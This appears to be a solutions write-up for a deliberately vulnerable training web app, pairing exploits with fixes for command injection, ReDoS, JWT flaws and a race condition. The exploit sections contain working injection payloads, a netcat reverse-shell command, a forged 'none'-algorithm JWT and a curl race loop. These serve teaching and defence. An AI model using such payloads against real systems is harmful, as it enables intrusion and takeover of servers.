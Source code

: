 # CMD
## Exploit
```50;touch AAAAAAA;``` . 
really makes the file, so execution is possible . 

For a real exploit, we first need to listen to a certain port on our own system:  
```nc -lvp 4444``` . 
Then in the payload we will use netcat to connect to this listening port and initiate a shell:  
```50; nc 127.0.0.1 4444 -e /bin/bash;``` . 

If you do not have nc but you just want to check if your code execution works, you could for example overwrite the index.html:
```;echo "<html>rishu's solution</html>" > templates/index.html;``` . 

## Fix
change:  
```    os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')``` . 
to:  
```
    whitelist = {"50","150"}
    if sizeImg in whitelist:
        os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')
```  
alternative in php template: escapeshellarg() or escapeshellcmd() in PHP . 


# DoS regex
## Exploit
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa . 
will crash the system

## Fix
replace:  
```    match = re.search(r"^([0-9a-zA-Z]([-.\w]*[0-9a-zA-Z])*@{1}([0-9a-zA-Z][-\w]*[0-9a-zA-Z]\.)+[a-zA-Z]{2,9})$", str(email))```  
with:  
```    match = re.search(r"^([0-9a-zA-Z-.\w])+@{1}([0-9a-zA-Z-\w]+\.)+[a-zA-Z]{2,9}$", str(email))``` . 

So this is not according to the RFC but fixes the issue in the application.  

https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS . 


# JWT
Make sure you have all imports installed if you run the python code locally:  
pip3 install -r requirements.txt . 

Interesting blog post:
https://hackernoon.com/can-timing-attack-be-a-practical-security-threat-on-jwt-signature-ba3c8340dea9

## Exploit
After authentication you receive a JWT where you can swith the algorithm in the header to "None":  
{
  "typ":"JWT",
  "alg":"NONE"
}
   
-> ewogICJ0eXAiOiJKV1QiLAogICJhbGciOiJOT05FIgp9 . 
ewogICJ0eXAiOiJKV1QiLAogICJhbGciOiJOT05FIgp9.eyJleHAiOjE1NTMwMDM3MTgsImlhdCI6MTU1MzAwMzQxOCwibmJmIjoxNTUzMDAzNDE4LCJpZGVudGl0eSI6Mn0.  
Open the local storage tab within the browser and replace the original token there.

You can check JWT at https://jwt.io/

## Fix
Do not allow algorithm "NONE" in the backend.

# JWT secret
## Exploit
Intercept and check JWT from response. After decoding, we can brute-force with:
https://github.com/jmaxxz/jwtbrute

## Fix
Use a better secret in:
```app.config['SECRET_KEY'] = 'secret'```

# Race condition
## Exploit
In the background, constantly try to execute the second step:
while true; do
    curl -i -s -k  -X $'GET' \
        -H $'Host: localhost:5000' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
        $'http://localhost:5000/?action=run' | grep "Check this out"
done

Then trigger the first call in the browser with characters that would normally not pass the input validation:
Default User`id`

## Fix
Do validation first and then write to file.
